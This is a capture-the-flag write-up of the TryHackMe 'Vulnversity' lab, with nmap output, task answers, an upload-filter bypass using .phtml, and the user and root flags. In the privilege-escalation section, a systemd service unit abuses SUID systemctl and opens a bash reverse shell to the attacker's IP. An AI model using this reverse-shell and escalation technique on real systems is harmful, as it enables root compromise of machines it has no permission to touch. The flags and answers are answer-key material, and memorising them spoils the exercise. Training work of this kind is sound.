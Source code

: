 # Vulnversity | TryHackMe | Vishakhan Pillai | 25/04/2025

```bash
export IP=10.10.18.245
```

## nmap scan

```
# Nmap 7.95 scan initiated Sun May 25 22:26:40 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap/initial -vv 10.10.18.245
Nmap scan report for 10.10.232.71
Host is up, received reset ttl 60 (0.26s latency).
Scanned at 2025-05-25 22:26:41 IST for 34s
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 60 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack ttl 60 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 60 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 60 Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 43622/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 21974/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 42371/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25861/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2025-05-25T12:57:06-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-05-25T16:57:06
|_  start_date: N/A
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 25 22:27:15 2025 -- 1 IP address (1 host up) scanned in 35.65 seconds

```

## Task 1

Deploy the machine
```
no answers needed

```

## Task 2 - Reconnaissance 

1. Scan the box; how many ports are open?
```
6
```

2. What version of the squid proxy is running on the machine?
```
3.5.12
```

3. How many ports will Nmap scan if the flag -p-400 was used?
```
400
```

4. What is the most likely operating system this machine is running?
```
ubuntu
```
5. What port is the web server running on?
```
3333
```

6. What is the flag for enabling verbose mode using Nmap?
```
-v
```

## Task 3 - Locating directories using Gobuster

1. What is the directory that has an upload form page?

gobuster dir -u http://10.10.18.245:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

```
/internal  
```


## Task 4 - Compromise the Webserver

1. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.
```
.php  
```

2. What extension is allowed after running the above exercise?
```
.phtml
```

3. What is the name of the user who manages the webserver?
```
bill
```

4. What is the user flag?
```
8bd7992fbe8a6ad22a63361004cfcedb
```

## Task 5 - Privilege Escalation

1. On the system, search for all SUID files. Which file stands out?
```
/bin/systemctl
```

Abusing /bin/systemctl

```service
[unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.58.216/3333 0>&1'

[Install]
WantedBy=multi-user.target 
```

2. What is the root flag value?

```
a58ff8579f0a9270368d33a9966c7fd5
```